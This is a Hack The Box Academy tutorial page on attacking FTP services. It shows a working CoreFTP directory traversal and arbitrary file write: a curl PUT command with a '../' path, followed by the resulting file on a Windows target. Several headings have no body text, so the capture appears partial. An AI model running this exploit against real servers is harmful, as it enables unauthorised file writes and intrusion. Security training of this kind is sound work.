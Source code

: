 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/116/section/1166
// Platform Version: V1
// Module ID: 116
// Module Name: Attacking Common Services
// Module Difficulty: Medium
// Section ID: 1166
// Section Title: Latest FTP Vulnerabilities
// Page Title: Attacking Common Services
// Page Number: 06
-->

# Latest FTP Vulnerabilities

**Module Name:** Attacking Common Services **Page Number:** 06

#### ATTACKING COMMON SERVICES

# Latest FTP Vulnerabilities

## The Concept of the Attack

#### CoreFTP Exploitation

``` shell-session
[!bash!]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

#### The Concept of Attacks

![https://academy.hackthebox.com/storage/modules/116/attack_concept2.png](https://academy.hackthebox.com/storage/modules/116/attack_concept2.png)

#### Directory Traversal

#### Arbitrary File Write

#### Target System

``` cmd-session
C:\> type C:\whoops

PoC.
```

####